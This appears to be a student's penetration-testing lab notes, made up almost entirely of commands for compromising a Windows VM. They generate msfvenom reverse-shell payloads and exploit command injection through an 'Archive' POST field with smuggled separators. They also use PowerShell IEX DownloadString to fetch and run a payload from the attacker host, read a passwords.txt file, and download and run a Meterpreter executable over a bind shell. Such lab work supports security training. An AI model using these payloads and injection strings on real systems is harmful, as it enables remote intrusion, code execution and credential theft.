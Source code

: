 interact with session again
```
sessions -i <session_number>
```

### VM 2 - get php reverse shell
```
msfvenom -l payloads --arch x64 | grep php
```

lets try a staged reverse tcp 
```
php/meterpreter/reverse_tcp
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.45.181 LPORT=443 -f raw -o reverse-met.php
```

download the file onto the filesystem
```
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.227.189:8000/archive
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.227.189:8000/archive
curl -X POST --data 'Archive=git%3BIEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.181%2Freversemet.pHP%22)%3B.\reversemet.pHP' http://192.168.227.189:8000/archive
```

set up meterpreter to catch shell
```
sudo msfconsole
use multi/handler
set payload php/meterpreter/reverse_tcp
set LHOST 192.168.45.181
set LPORT 443
```

execute uploaded script (note this did not work and I had to just upload the file)
```
curl -X POST --data 'Archive=git%3Bdir' http://192.168.227.189:8000/archive
curl -X POST --data 'Archive=git%3B.\reversemet.pHP' http://192.168.227.189:8000/archive

cat C:\xampp\passwords.txt
```

### Post exploitation

create non-staged windows payload
```
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.45.181 LPORT=443 -f exe -o met.exe 
```

in msfconsole
```
set payload windows/x64/meterpreter_reverse_https
set LPORT 443
run
```

connect to bind shell on target and download the file
```
nc 192.168.227.223 4444
powershell
iwr -uri http://192.168.45.181/met.exe -Outfile met.exe
.\met.exe
```
